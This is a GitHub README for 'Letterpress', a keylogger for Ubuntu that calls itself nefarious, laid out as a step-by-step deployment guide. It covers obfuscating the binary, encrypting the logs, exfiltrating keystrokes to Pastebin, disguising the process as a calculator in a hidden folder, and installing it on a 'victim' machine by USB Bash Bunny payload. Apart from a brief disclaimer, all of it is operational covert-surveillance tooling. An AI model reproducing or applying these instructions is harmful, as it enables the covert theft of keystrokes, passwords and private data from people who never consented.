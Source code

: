 # Letterpress

A nefarious keylogger for Ubuntu.

Letterpress...
- hides in plain sight
- compiles to python bytecode for obfuscation 
- encrypts keylog files so that only you can read them
- uploads keylog files to pastebin for remote exfiltration
- is easily deployable with the [Bash Bunny](https://wiki.bashbunny.com/#!index.md)

__DISCLAIMER: Letterpress is for educational purposes only. The use of this software should not be used under circumstances where doing so is illegal. The author is not responsible for its use. Don't be a dick.__

I'm hoping to make Letterpress cross-platform in the near future. If its been a couple of months since I've written this, that hasn't happened yet, and you wish to use it with another OS, bug me.

## Getting Started

```bash
# clone the repo
git clone https://github.com/brannondorsey/letterpress.git

# navigate into the cloned directory
cd letterpress

# install the necessary dependencies
# note: this may require sudo
pip install python-xlib pycrypto PyInstaller
```

## Configure

Letterpress must be configured before use. This is done by editing the [`src/config.py`](src/config.py) file.

### Using an RSA keypair

Letterpress uses an RSA public key to encrypt a symmetric AES cypher that is used to encrypt the keylog file that lives on the victim's computer. This protects the keylog file from being inspected at rest or in-transit from anyone but yourself (or whoever has the corresponding private RSA). 

If you don't have an existing RSA keypair, you can generate one with:

```bash
ssh-keygen -t rsa -b 4096 -C "your_email@example.com"
```

In order for your public key to be used to encrypt the keylog file you must add its contents as a string to the `public_key` variable inside of [`src/config.py`](src/config.py).

```python
# edit in src/config.py
public_key = "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDh15NNqRbPkDmyhEsyua3YXtLsXaxSH+Hwezy01GZY4aJdqSmUtCihRrMWkSD5pTbQ7UCflSSZ/09gK/yRQGlAHkSesIGtS/y2cZ7dfOFBQdGq9m1nP5vRldNq7JyicuI+pwVCb7Nkap+Zt0sb6nWi1gcJzHvyDFkhlonOG1GNxdS8BVvLe/l090nZoiNwaCtFaSxnhjOzoZEKjOe0tpucS+7AeP+AT4GIKLVLfMC0Wy8xQwSBKF22yS9z5p64eDTdOZG9c1/3dyIeyEbF5klQzF5rs31if0kiISNl+xoTBwrk0iB8Df27amzjuXEKYKbNV8MBiEOciJ7oXm5ieZHb test@example.com"
```

### Adding Pastebin Credentials

[Pastebin](https://pastebin.com/) is a popular text storage site that is often used by hackers to store, publish, or share stolen and leaked information. You must create a Pastebin account to use Letterpress, however accounts with API usage limits are free. Note that depending on your use of Letterpress you may wish to create a pastebin account using an email address that is not linked to your real name/identity. 

You must provide a value for the following variables in [`src/config.py`](src/config.py) like so:

```python
pastebin_username    = 'foobar'
pastebin_password    = '1337'
pastebin_api_dev_key = 'deadbeef1337d99a74fbe169e3eba035' 
```

Your unique pastebin API key can be found by clicking the API tab on [pastebin.com](https://pastebin.com)

### Changing Log Update & Upload Intervals

To minimize suspicion, Letterpress buffers keypresses and flushes them to file at an interval instead of after every keypress. Similarly, it uploads the encrypted keylog to pastebin after each set number of keypresses. The values for both of these intervals can be configured in [`src/config.py`](src/config.py).

```python
# flush buffer to file after this many key presses
num_keypresses_between_log_updates = 100
# upload the keylog to pastebin after this man key presses
num_keypresses_between_uploads     = 5000
```

## Build

Letterpress leverages [PyInstaller](https://github.com/pyinstaller/pyinstaller) to bundle all python dependencies into a compiled executable. To compile [`src/keylogger.py`](src/keylogger.py) into a standalone that can be deployed on a victim's machine, run:

```bash
./build.sh
```

If everything worked correctly the keylogger should have been compiled to `keylogger` in the project root.

## Deploy

Now that you've configured and built Letterpress, the last step is to actually get it onto your victim's computer. Again, Letterpress is for educational purposes only. __Do not__ use this on a machine you do not own without the owner's consent.

`keylogger` saves encrypted keylogs in a `.cache` hidden folder next to the binary. Each time it is launched it creates a new keylog file and AES key arbitrarily named `.cache/XXXX` and `.cache/XXXX_aes` respectively. The AES key is encrypted with the Public RSA key. This decrypted key was used to encrypt the `XXXX` keylog. These files two files are uploaded to pastebin every `num_keypresses_between_uploads` keypresses.

`install_keylogger.sh` is a quick and easy way to install the keylogger on a victim's machine. If both files exist on a target Ubuntu machine, and sit next to one another, the following command will install and run `keylogger`, hiding it plain site as `/home/$USER/.linux-calculator/calc`.

```bash
# install and run the keylogger, renaming it to calc and redirecting output to /dev/null
KEYLOGGER=keylogger INSTALL_DIR=/home/$USER/.linux-calculator BIN_NAME=calc ./install_keylogger.sh

# make sure it is running
ps aux | grep calc
```

If you choose not to install `keylogger` with `install_keylogger.sh` it is advisable to rename `keylogger` to something less suspicious given that it will be viewable to the victim if they inspect their running processes (via `ps`, etc...). 

### Deploy Using BashBunny

I've included a `payload.txt` script so that you can easily deploy Letterpress using a [Bash Bunny](https://wiki.bashbunny.com/#!index.md).

#### Arm Your Bash Bunny

Place your Bash Bunny in arming mode by flipping the switch so that it is closest to the USB side. You should see it pop up as a USB storage device named "BashBunny". Navigate to `path/to/BashBunny/payloads/switch1`. Delete the current contents in this folder if any exist. Copy the contents of the Letterpress contents into `switch1` (if you choose to instead arm to `switch2` be sure to edit the `SWITCH` variable in `install_keylogger.sh` to reflect this).

Replace `USERNAME` with the victim's username in `/home/USERNAME/BashBunny/...` inside the `payload.txt` that you just copied.  

#### Attack

Flip the Bash Bunny switch from arming mode to switch1 and plug it in to a victim Ubuntu machine. Note: the vicitm's screen must not be locked. Once the Bash Bunny boots up it should:

1. Open a new Terminal
2. Runs `bash "/media/USER_NAME/BashBunny/payloads/switch1/install_keylogger.sh"`
3. Waits 5 seconds and then exits the terminal

The keylogger should now be installed and running on the vicitm machine and you can unplug the Bash Bunny.

## Download and Decrypt Keylogs

Once your keylogger is deployed you should see periodic uploads to your pastebin as the user types on their machine. Download the encrypted keylog files `XXXX` and their matching AES key `XXXX_aes` and save them to disk. If pastebin automatically adds a `.txt` extension remove it. You can now decrypt and view the keylog `XXXX` like so:

```
PRIVATE_KEY=path/to/private_key ./decrypt.py XXXX
```

## Todo

- Keep the `keylogger` process up and launch on startup with a cron job.
- Edit `decrypt.py` so that it can optionally download from pastebin directly. Through something like a `--download` flag.
- Make cross-platform (MacOS + Windoze).

## Credit

Most of the magick keylogging code comes from [pyxhook](https://github.com/JeffHoogland/pyxhook).